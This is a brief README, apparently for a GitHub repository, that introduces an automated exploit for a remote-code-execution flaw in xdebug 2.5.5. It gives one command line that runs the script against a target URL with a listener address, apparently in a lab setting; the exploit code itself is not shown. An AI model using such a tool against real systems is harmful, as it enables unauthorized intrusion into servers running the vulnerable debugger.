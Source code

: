 # xdebug-2.5.5-
An automated exploit to the xdebug 2.5.5 RCE vulnerability
python3 xdebug.py -u http://10.10.10.83/index.php -l 10.10.16.3
